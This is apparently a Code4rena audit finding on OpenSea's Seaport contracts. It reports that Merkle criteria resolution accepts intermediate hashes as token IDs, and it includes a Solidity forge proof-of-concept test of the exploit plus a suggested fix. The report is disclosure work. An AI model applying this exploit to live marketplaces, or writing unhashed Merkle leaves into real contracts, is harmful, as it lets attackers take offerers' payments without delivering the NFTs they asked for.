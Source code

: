 ## Tags

- bug
- 2 (Med Risk)
- disagree with severity
- sponsor confirmed

# [Merkle Tree criteria can be resolved by wrong tokenIDs](https://github.com/code-423n4/2022-05-opensea-seaport-findings/issues/168) 

# Lines of code

https://github.com/code-423n4/2022-05-opensea-seaport/blob/4140473b1f85d0df602548ad260b1739ddd734a5/contracts/lib/CriteriaResolution.sol#L157


# Vulnerability details

## Impact
The protocol allows specifying several tokenIds to accept for a single offer.
A merkle tree is created out of these tokenIds and the root is stored as the `identifierOrCriteria` for the item.
The fulfiller then submits the actual tokenId and a proof that this tokenId is part of the merkle tree.

There are no real verifications on the merkle proof that the supplied tokenId is indeed **a leaf of the merkle tree**.
It's possible to submit an intermediate hash of the merkle tree as the tokenId and trade this NFT instead of one of the requested ones.

This leads to losses for the offerer as they receive a tokenId that they did not specify in the criteria.
Usually, this criteria functionality is used to specify tokenIds with certain traits that are highly valuable. The offerer receives a low-value token that does not have these traits.

#### Example
Alice wants to buy either NFT with tokenId 1 or tokenId 2.
She creates a merkle tree of it and the root is `hash(1||2) = 0xe90b7bceb6e7df5418fb78d8ee546e97c83a08bbccc01a0644d599ccd2a7c2e0`.
She creates an offer for this criteria.
An attacker can now acquire the NFT with tokenId `0xe90b7bceb6e7df5418fb78d8ee546e97c83a08bbccc01a0644d599ccd2a7c2e0` (or, generally, any other intermediate hash value) and fulfill the trade.

> One might argue that this attack is not feasible because the provided hash is random and tokenIds are generally a counter. However, this is not required in the standard.
> 
> "While some ERC-721 smart contracts may find it convenient to start with ID 0 and simply increment by one for each new NFT, callers SHALL NOT assume that ID numbers have any specific pattern to them, and MUST treat the ID as a 'black box'." [EIP721](https://eips.ethereum.org/EIPS/eip-721)
>
> Neither do the standard OpenZeppelin/Solmate implementations use a counter. They only provide internal `_mint(address to, uint256 id)` functions that allow specifying an arbitrary `id`. NFT contracts could let the user choose the token ID to mint, especially contracts that do not have any linked off-chain metadata like Uniswap LP positions.
> Therefore, ERC721-compliant token contracts are vulnerable to this attack.

#### POC
Here's a `forge` test ([gist](https://gist.github.com/MrToph/ccf5ec112b481e70dbf275aa0a3a02d6)) that shows the issue for the situation mentioned in _Example_.

```solidity
contract BugMerkleTree is BaseOrderTest {
    struct Context {
        ConsiderationInterface consideration;
        bytes32 tokenCriteria;
        uint256 paymentAmount;
        address zone;
        bytes32 zoneHash;
        uint256 salt;
    }

    function hashHashes(bytes32 hash1, bytes32 hash2)
        internal
        returns (bytes32)
    {
        // see MerkleProof.verify
        bytes memory encoding;
        if (hash1 <= hash2) {
            encoding = abi.encodePacked(hash1, hash2);
        } else {
            encoding = abi.encodePacked(hash2, hash1);
        }
        return keccak256(encoding);
    }

    function testMerkleTreeBug() public resetTokenBalancesBetweenRuns {
        // Alice wants to buy NFT ID 1 or 2 for token1. compute merkle tree
        bytes32 leafLeft = bytes32(uint256(1));
        bytes32 leafRight = bytes32(uint256(2));
        bytes32 merkleRoot = hashHashes(leafLeft, leafRight);
        console.logBytes32(merkleRoot);

        Context memory context = Context(
            consideration,
            merkleRoot, /* tokenCriteria */
            1e18, /* paymentAmount */
            address(0), /* zone */
            bytes32(0), /* zoneHash */
            uint256(0) /* salt */
        );
        bytes32 conduitKey = bytes32(0);

        token1.mint(address(alice), context.paymentAmount);
        // @audit assume there's a token where anyone can acquire IDs. smaller IDs are more valuable
        // we acquire the merkle root ID
        test721_1.mint(address(this), uint256(merkleRoot));

        _configureERC20OfferItem(
            // start, end
            context.paymentAmount, context.paymentAmount
        );
        _configureConsiderationItem(
            ItemType.ERC721_WITH_CRITERIA,
            address(test721_1),
            // @audit set merkle root for NFTs we want to accept
            uint256(context.tokenCriteria), /* identifierOrCriteria */
            1,
            1,
            alice
        );

        OrderParameters memory orderParameters = OrderParameters(
            address(alice),
            context.zone,
            offerItems,
            considerationItems,
            OrderType.FULL_OPEN,
            block.timestamp,
            block.timestamp + 1000,
            context.zoneHash,
            context.salt,
            conduitKey,
            considerationItems.length
        );

        OrderComponents memory orderComponents = getOrderComponents(
            orderParameters,
            context.consideration.getNonce(alice)
        );
        bytes32 orderHash = context.consideration.getOrderHash(orderComponents);
        bytes memory signature = signOrder(
            context.consideration,
            alicePk,
            orderHash
        );

        delete offerItems;
        delete considerationItems;

        /*************** ATTACK STARTS HERE ***************/
        AdvancedOrder memory advancedOrder = AdvancedOrder(
            orderParameters,
            1, /* numerator */
            1, /* denominator */
            signature,
            ""
        );

        // resolve the merkle root token ID itself
        CriteriaResolver[] memory cr = new CriteriaResolver[](1);
        bytes32[] memory proof = new bytes32[](0);
        cr[0] = CriteriaResolver(
              0, // uint256 orderIndex;
              Side.CONSIDERATION, // Side side;
              0, // uint256 index; (item)
              uint256(merkleRoot), // uint256 identifier;
              proof // bytes32[] criteriaProof;
        );

        uint256 profit = token1.balanceOf(address(this));
        context.consideration.fulfillAdvancedOrder{
            value: context.paymentAmount
        }(advancedOrder, cr, bytes32(0));
        profit = token1.balanceOf(address(this)) - profit;

        // @audit could fulfill order without owning NFT 1 or 2
        assertEq(profit, context.paymentAmount);
    }
}
```

## Recommended Mitigation Steps
Usually, this is fixed by using a type-byte that indicates if one is computing the hash for a _leaf_ or not.
An elegant fix here is to simply [use hashes of the tokenIds](https://github.com/code-423n4/2022-05-opensea-seaport/blob/4140473b1f85d0df602548ad260b1739ddd734a5/contracts/lib/CriteriaResolution.sol#L250) as the leaves - instead of the tokenIds themselves. (Note that this is the natural way to compute merkle trees if the data size is not already the hash size.)
Then compute the leaf hash in the contract from the provided tokenId:

```diff
function _verifyProof(
    uint256 leaf,
    uint256 root,
    bytes32[] memory proof
) internal pure {
    bool isValid;

-    assembly {
-        let computedHash := leaf
+  bytes32 computedHash = keccak256(abi.encodePacked(leaf))
  ...
```

There can't be a collision between a leaf hash and an intermediate hash anymore as the former is the result of hashing 32 bytes, while the latter are the results of hashing 64 bytes.

Note that this requires off-chain changes to how the merkle tree is generated. (Leaves must be hashed first.)


